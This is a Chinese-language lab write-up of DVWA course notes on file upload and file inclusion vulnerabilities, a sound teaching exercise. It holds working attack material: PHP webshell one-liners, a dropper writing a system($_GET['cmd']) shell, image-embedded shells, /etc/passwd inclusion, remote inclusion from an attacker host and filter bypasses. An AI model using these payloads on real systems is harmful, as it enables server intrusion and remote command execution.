






owasp文件包含漏洞
那么我们今天来讲包含
老师给了关于文件上传和文件包含的笔记 那我就誊在这里 再把实践部分传过来
owasp下载地址:
https://sourceforge.net/projects/owaspbwa/files/
注:如遇dvwa无法更改难度 多半为cookie所致 请随以下教程删除网站的缓存：请点这里
笔记部分
文件上传漏洞
1.什么是文件上传漏洞
漏洞描述
文件上传是 Web 应用的必备功能之一，比如上传头像显示个性化、上传附件共享文件、上传脚本更新网站。如果服务器配置不当或者没有进行足够的过滤，Web 用户就可以上传任意文件，包括恶意脚本文件、exe 程序等，这就造成了文件上传漏洞。
2.什么是webshell
在计算机科学中，Shell 俗称壳（用来区别“核”），是指“为使用者提供操作界面”的软件（命令解释器）。类似于 windows 系统给的 cmd.exe 或者 Linux 下 bash 等，虽然这些系统的命令解释器不止一种。
WebShell 是一个网站的后门，也是一个命令解释器，不过是以 Web 方式（HTTP 协议）通信（传递命令消息），继承了 Web 用户的权限。WebShell 本质上是服务器端可运行的脚本文件，后缀名为.php/.asp/.aspx/.jsp 等，也就是说 WebShell 接受来自于 Web 用户的命令，然后在服务器端执行。
3.一句话木马(小马)
1 | asp: |
请记住以上4条语句！！！（其中数字1去掉）
4.（低级别）文件上传漏洞
切换到UPload
1）先上传一张图片（文件大小在100KB以内），根据返回路径验证该文件受否存在。
2）再上传一个小马ma1.php，
根据返回路径验证该文件受否存在,并测试效果。
3）再上传一个小马ma2.php，
根据返回路径验证该文件受否存在,并测试效果。
4）再上传一个小马ma3.php，
根据返回路径验证该文件受否存在,并测试效果。
5)使用中国菜刀（或蚁剑antword）链接ma3.php，测试文件上传、下载。（文件管理）
6）使用菜刀的虚拟终端功能，远程执行目标计算机系统指令。（虚拟终端）
7）使用菜刀的数据库管理功能，远程执行目标计算机系统指令。（数据库管理）
数据库类型
主机地址
数据库用户
数据库密码
以上内容根据实际情况填写，本实验为：
MYSQL
192.168.88.128
root
owaspbwa
5.（中级别）文件上传漏洞
仍然上传一个PHP文件，发现失败，提示信息如下：
Your image was not uploaded.
查看网页后端源代码：
发现需满足如下条件：
if (($uploaded_type == “image/jpeg”) && ($uploaded_size < 100000))
分析得出网站对客户端上传文件的MIME类型做了限制。
什么是MIME
MIME, 全称为“Multipurpose Internet Mail Extensions”, 比较确切的中文名称为“多用途互联网邮件扩展”。它是当前广泛应用的一种电子邮件技术规范，基本内容定义于RFC 2045-2049
什么是MIME类型?-在把输出结果传送到浏览器上的时候，浏览器必须启动适当的应用程序来处理这个输出文档。这可以通过多种类型MIME（多功能网际邮件扩充协议）来完成。在HTTP中，MIME类型被定义在Content-Type header中。
例 如，架设你要传送一个Microsoft Excel文件到客户端。那么这时的MIME类型就是“application/vnd.ms-excel”。 在大多数实际情况中，这个文件然后将传送给 Execl来处理（假设我们设定Execl为处理特殊MIME类型的应用程序）。在ASP中，设定MIME类 型的方法是通过Response对象的 ContentType属性。
多媒体文件格式MIME
最早的HTTP协议中，并没有附加的数据类型信息，所有传送的数据都被客户程序解释为超文本标记语言HTML 文档，而为了支持多媒体数据类型，HTTP协议中就使用了附加在文档之前的MIME数据类型信息来标识数据类型。
MIME意为多目Internet邮件扩展，它设计的最初目的是为了在发送电子邮件时附加多媒体数据，让邮件客户程序能根据其类型进行处理。然而当它被HTTP协议支持之后，它的意义就更为显著了。它使得HTTP传输的不仅是普通的文本，而变得丰富多彩。
每个MIME类型由两部分组成，前面是数据的大类别，例如声音audio、图象image等，后面定义具体的种类。
常见的MIME类型
超文本标记语言文本 .html,.html text/html
普通文本 .txt text/plain
RTF文本 .rtf application/rtf
GIF图形 .gif image/gif
JPEG图形 .ipeg,.jpg image/jpeg
au声音文件 .au audio/basic
MIDI音乐文件 mid,.midi audio/midi,audio/x-midi
RealAudio音乐文件 .ra, .ram audio/x-pn-realaudio
MPEG文件 .mpg,.mpeg video/mpeg
AVI文件 .avi video/x-msvideo
GZIP文件 .gz application/x-gzip
TAR文件 .tar application/x-tar
如何修改上传文件的MIME类型，请出Web神器BurpSuite
BurpSuite可以将客户端与服务器之间传输的数据进行拦截，然后对数据进行修改并再次发送，从而完成攻击过程。
1)本实验我们BurpSuite代理服务器和客户端是同一台计算机（KALI），因此，BurpSuite代理模块监听127.0.0.1:8080(无需修改)；
2）设置客户端浏览器firefox的代理地址，指向BurpSuite代理服务器（127.0.0.1:8080）；
3）再次上传ma.php，发现网页一直等在那里（因为数据发送到了BurpSuite代理服务器，等待用户操作）；
4）在BurpSuite中拦截界面找到上传文件的数据包，修改上传文件的MIME类型
（修改content-type，由appalication/x-php改为imag/jpeg）
5)上传成功，后续操作略。
6.（高级别）文件上传漏洞利用
仍然上传一个PHP文件，发现失败，提示信息如下：
Your image was not uploaded.
查看网页后端源代码：
发现需满足如下条件：
if (($uploaded_ext == “jpg” || $uploaded_ext == “JPG” || $uploaded_ext == “jpeg” || $uploaded_ext == “JPEG”) && ($uploaded_size < 100000))
分析得出网站对客户端上传文件的扩展名做了限制。
未完待续……
6.DVWA靶场文件包含漏洞利用（低级别）
To include a file edit the ?page=index.php in the URL to determine which file is included.
code:<?php $file = $_GET['page']; //The page we wish to display ?>
文件包含漏洞
文件包含分为本地文件包含和远程文件包含
1）先看本地文件包含（包含的文件是目标计算机上的文件）
e.g:
?page=/etc/passwd
?page=/etc/resolv.conf
….
也可以包含一些我们自己创建的文件
我们登录到DVWA靶场，切换到/var/www/目录，创建2个文件：1.txt和2.php
cd /var/www/
echo 123 > 1.txt
echo ““ > 2.php
在kali上去包含我们自己创建的这2个文件，看看效果，有什么启发？
2）再看远程文件包含（包含的文件是远程计算机上的文件）
在kali上假设一个网站，网站主目录放点内容（也可以是3.txt和4.php）
systemctl status apache2
systemctl start apache2
cd /var/www/html
echo 123 > 3.txt
echo ““ > 4.php
进入DVWA文件包含页面，试着包含一下，看看效果?page=http://kali的IP地址/3.txt?page=http://kali的IP地址/4.php
sudo passwd root //修改root用户的密码
3)图片种马（将一句话木马写到图片中）
如何种马？准备一个正经的图片1.jpg和1个不正经的1.php,通过强大的copy命令合成一下：
copy 1.jpg/b+1.php/a hack.jpg
合成后验证这个图片能够正常显示，并查看图片中是否有这个一句话木马。
1.php内容如下：<?fputs(fopen("shell10.php","w"),'<?php @system($_GET['cmd']);?>')?>
7.（中级别）文件包含漏洞利用
先访问http://192.168.88.128/dvwa/vulnerabilities/fi/?page=/etc/passwd
发现也存在本地文件包含漏洞
在测试一下是否存在远程文件包含漏洞http://192.168.88.128/dvwa/vulnerabilities/fi/?page=http://192.168.88.129/2.phphttp://192.168.88.128/dvwa/vulnerabilities/fi/?page=http://192.168.88.129/1.txt
发现远程文件包含漏洞不成功；
查看网站后端源码，发现以下内容：
1 | <?php |
尝试通过以下方式绕过：http://192.168.88.128/dvwa/vulnerabilities/fi/?page=hhttp://ttp://192.168.88.129/1.txthttp://192.168.88.128/dvwa/vulnerabilities/fi/?page=HTTP://192.168.88.129/1.txthttp://192.168.88.128/dvwa/vulnerabilities/fi/?page=Http://192.168.88.129/1.txt
8.（高级别）文件包含漏洞利用
先访问http://192.168.88.128/dvwa/vulnerabilities/fi/?page=/etc/passwd
出现报错：
ERROR: File not found!http://192.168.88.128/dvwa/vulnerabilities/fi/?page=http://192.168.88.129/1.txt
出现报错：
ERROR: File not found!
发现本地和远程文件包含漏洞都不成功；
查看网站后端源码，发现以下内容：
1 | <?php |
这种代码的写法相当安全但是不够灵活！！！
实操部分
1.漏洞发现
总之先进入dvwa靶机 将难度调整至medium 选择file inclusion

先通过http://192.168.88.128/dvwa/vulnerabilities/fi/?page=/etc/passwd测试

确实存在本地文件包含漏洞
随后我们再来测试一下远程包含漏洞
1 | systemctl status apache2 //查看系统apache2服务的情况 |

在page后加入http://kali的ip/4.php

发现没有成功
查看源码 寻找原因

发现网站中会将http://与https://替换为空格
这里有两种方法 大写 或 双写

大写后发现成功绕过防护
好的 目前先讲到这里 我们日后再说